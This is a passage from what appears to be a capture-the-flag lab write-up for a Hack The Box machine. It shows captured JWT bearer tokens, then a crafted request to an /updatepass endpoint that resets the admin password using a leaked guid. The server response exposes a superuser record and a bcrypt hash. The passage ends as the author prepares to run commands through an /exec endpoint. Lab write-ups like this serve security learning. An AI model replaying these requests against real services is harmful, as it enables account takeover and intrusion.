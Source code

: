 ```http
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMxMTUyLCJpYXQiOjE2NTg5Mzk5NTIsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiOGE1ODY4MTgtN2MwMS00YzhiLTg3ZmItZTE3ZTRlYTU0NTc3In0.Hjw6uONnhht4gMq3-xb6s_WAbKqCdSdF8LA7Tb-b9rg
```
then we'll need to add the same token to each of the following HTTP requests:  
```http
GET /openapi.json HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMxMTUyLCJpYXQiOjE2NTg5Mzk5NTIsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiOGE1ODY4MTgtN2MwMS00YzhiLTg3ZmItZTE3ZTRlYTU0NTc3In0.Hjw6uONnhht4gMq3-xb6s_WAbKqCdSdF8LA7Tb-b9rg
```

## User
Once we have an initial foothold into the API we can see that the `/docs` endpoint is serving a swaggerUI service, here we can see interesting APIs that we can use to leverage an attack.  
For example, we can see an `/updatepass` endpoint which is requesting not only the new basswood but also the guid.  
If we send to this endpoint a new password and the guid of admin that we discovered  earlier, we might be able to change the password of the admin account:  
```http
POST /api/v1/user/updatepass HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 79
Connection: close
Sec-GPC: 1

{
  "guid": "36c2e94a-4271-4259-93bf-c96ad5948284",
  "password": "Password1"
}
```
As we can see as response we get:  
```http
HTTP/1.1 201 Created
date: Wed, 27 Jul 2022 17:04:03 GMT
server: uvicorn
content-length: 241
content-type: application/json
Connection: close

{"date":null,"id":1,"is_superuser":true,"hashed_password":"$2b$12$iABrm/kqQNQ0XAsAv1S1r.8qx2NFrJ2QVYTPRMtk3dyal5FvIACPy","guid":"36c2e94a-4271-4259-93bf-c96ad5948284","email":"admin@htb.local","time_created":1649533388111,"last_update":null}
```
So, we can assume that we successfully changed the password for the admin account.  
Now that the password is changed, we can try to get a JWT token for the admin user and run a command using the `/exec` endpoint.  
```http
```
